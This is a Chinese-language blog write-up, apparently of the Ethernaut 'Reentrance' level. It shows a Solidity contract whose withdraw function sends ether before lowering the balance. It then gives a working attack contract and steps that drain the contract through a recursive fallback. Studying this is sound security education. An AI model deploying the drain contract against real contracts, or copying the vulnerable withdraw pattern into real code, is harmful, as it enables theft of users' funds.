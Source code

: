 ```yaml
---
layout: post
title: Reenctrancy
---
```


# Reenctrancy
关于重入攻击，如DAO事件
```solidity
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

### 代码分析
```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
withdraw(uint256)方法中，先向msg.sender转账，后减少其balance；如果msg.sender方法为一个合约，并且其有
fallback函数，并且在fallback函数中又调用了该合约的withdraw(uint256)方法，那么msg.sender就能一直从该合约
窃取eth（因为整个过程中msg.sender的balance并没有减少），
*msg.sender.call()会将剩余的gas全部传入；msg.sender.transfer(value)则仅能使用2300gas*

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/ReentranceAttack.sol)
注意：如果合约balance较大而自己donate的balance较小时，则可以进行循环调用，一点一点地减少合约的金额。
（可以引发out of gas 或者达到call最大深度等错误）  
如：
```solidity
pragma solidity ^0.4.18;

import '../levels/Reentrance.sol';

contract ReentranceAttack {

  Reentrance target;

  function ReentranceAttack(address _target) public payable {
    target = Reentrance(_target);
  }

  function() public payable {
    uint256 amount = 1 ether; // your donate balance
    if (target.balance > amount) {
        target.withdraw(amount);
    } else {
        target.withdraw(target.balance);
    }
    
  }
  
  function attack() public {
     uint256 amount = 1 ether;
     target.withdraw(amount);
  }
}
```

### 攻击方法
1. 部署攻击合约
2. 调用Reentrance.donate(1 ether)
3. 调用攻击合约的attack方法
